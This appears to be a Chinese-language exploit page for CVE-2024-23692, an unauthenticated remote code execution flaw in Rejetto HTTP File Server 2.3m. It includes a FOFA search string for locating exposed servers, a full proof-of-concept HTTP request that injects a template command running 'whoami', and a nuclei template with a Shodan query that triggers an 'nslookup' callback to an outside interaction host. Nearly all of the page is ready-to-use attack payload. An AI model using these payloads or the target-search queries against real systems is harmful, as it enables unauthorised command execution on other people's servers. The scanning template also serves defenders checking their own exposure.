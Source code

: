## HFS2.3未经身份验证的远程代码执行(CVE-2024-23692)

Rejetto HTTP 文件服务器 2.3m 未经身份验证的 RCE

## fofa

```
"HttpFileServer"
```

## poc

```
GET /?n=%0A&cmd=whoami&search=%25xxx%25url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.} HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: HFS_SID_=0.590236319694668
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406092216228.png)

![image-20240611150501738](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406111505997.png)

## nuclei

```
id: CVE-2024-23692

info:
  name: Rejetto HTTP File Server - Template injection
  author: johnk3r
  severity: critical
  description: |
    This vulnerability allows a remote, unauthenticated attacker to execute arbitrary commands on the affected system by sending a specially crafted HTTP request.
  reference:
    - https://github.com/rapid7/metasploit-framework/pull/19240
    - https://mohemiv.com/all/rejetto-http-file-server-2-3m-unauthenticated-rce/
  metadata:
    verified: true
    max-request: 1
    shodan-query: product:"HttpFileServer httpd"
  tags: cve,cve2024,hfs,rce

http:
  - method: GET
    path:
      - "{{BaseURL}}/?n=%0A&cmd=nslookup+{{interactsh-url}}&search=%25xxx%25url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.}"

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol
        words:
          - "dns"

      - type: word
        part: body
        words:
          - "rejetto"
```


